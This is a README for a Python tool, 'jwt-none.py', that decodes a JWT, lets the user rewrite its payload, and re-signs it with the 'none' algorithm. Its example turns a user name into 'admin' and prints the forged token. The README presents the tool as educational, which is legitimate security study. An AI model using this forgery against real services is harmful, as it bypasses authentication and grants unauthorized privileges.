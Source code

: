 # 🔒 JWT Payload Modifier 🔒

This script decodes a given JWT (JSON Web Token), displays the payload, then allows the user to input a new payload and encodes it using the 'none' algorithm. Please note that using the 'none' algorithm in a real-life application is a significant security risk, as it allows the JWT to be altered without invalidating the signature.

**This script is intended for educational purposes only.**

## 👨‍💻 Author

- [Maxence ZOLNIERUCK](https://github.com/mxcezl)

## 📝 Requirements

Python 3.6 or above and the following packages:

- json
- base64
- argparse
- prompt_toolkit
- colorama
- ast

Please refer to the `requirements.txt` file for the exact versions of these packages.

## 💻 Usage

```
python3 jwt-none.py -t [TOKEN]
```

Replace `[TOKEN]` with your JWT token.

## 📖 Example

```
python3 jwt-none.py --token eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJuYW1lIjoibG9sIiwiaWF0IjoxNjg1OTkxMTUyfQ.5KL4Gq43dIiuHbmruad2uJex4GjjUonf1u8TeMT-vog
```

Output:

```
Current payload is: {'name': 'test', 'iat': 1685991152}
Enter your new payload (in JSON format): {'name': 'admin', 'iat': 1685991152}
Your new JWT is: eyJhbGciOiAibm9uZSIsICJ0eXAiOiAiSldUIn0.eyJuYW1lIjogImFkbWluIiwgImlhdCI6IDE2ODU5OTExNTJ9.
```